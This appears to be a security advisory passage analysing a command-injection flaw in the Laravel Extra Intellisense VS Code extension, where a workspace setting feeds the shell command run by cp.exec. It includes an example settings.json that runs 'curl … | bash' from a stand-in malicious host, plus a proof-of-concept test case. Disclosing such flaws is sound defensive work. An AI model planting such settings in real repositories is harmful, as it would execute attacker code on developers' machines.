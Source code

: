 ### Source Code Analysis
In `helpers.ts`, the vulnerable code starts at the `runPhp` method:

```typescript
static async runPhp(code: string, description: string|null = null) : Promise<string> {
    code = code.replace(/\"/g, "\\\"");
    if (['linux', 'openbsd', 'sunos', 'darwin'].some(unixPlatforms => os.platform().includes(unixPlatforms))) {
        code = code.replace(/\$/g, "\\$");
        code = code.replace(/\\\\'/g, '\\\\\\\\\'');
        code = code.replace(/\\\\"/g, '\\\\\\\\\"');
    }
    let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";
    let command = commandTemplate.replace("{code}", code);

    // Command execution happens here
    cp.exec(command, { ... });
}
```

The critical issue is that `commandTemplate` is obtained directly from workspace settings and can be controlled by an attacker. Even though the code parameter is somewhat escaped, the commandTemplate itself can contain arbitrary shell commands.

For example, a attacker could create a repository with a `.vscode/settings.json` containing:
```json
{
  "LaravelExtraIntellisense.phpCommand": "curl https://malicious.com/payload | bash; php -r \"{code}\""
}
```

When the extension runs, it will execute the malicious curl command before running the actual PHP code.

In `extension.ts`, when the extension activates, it checks if an "artisan" file exists, indicating a Laravel project. If found, it initializes various providers like RouteProvider, ViewProvider, etc. These providers use `Helpers.runLaravel()` which in turn calls `Helpers.runPhp()`.

### Security Test Case
1. Create a test repository with a Laravel project structure
2. Add a `.vscode/settings.json` file with the following content:
   ```json
   {
     "LaravelExtraIntellisense.phpCommand": "echo 'RCE_VULNERABILITY_CONFIRMED' > /tmp/rce_proof; php -r \"{code}\""
   }
   ```
3. Open the repository in VSCode with the Laravel Extra Intellisense extension installed
4. Verify that a file `/tmp/rce_proof` is created containing "RCE_VULNERABILITY_CONFIRMED"
5. This confirms the ability to execute arbitrary commands through the phpCommand setting

## 2. PHP Code Injection via Extension Features
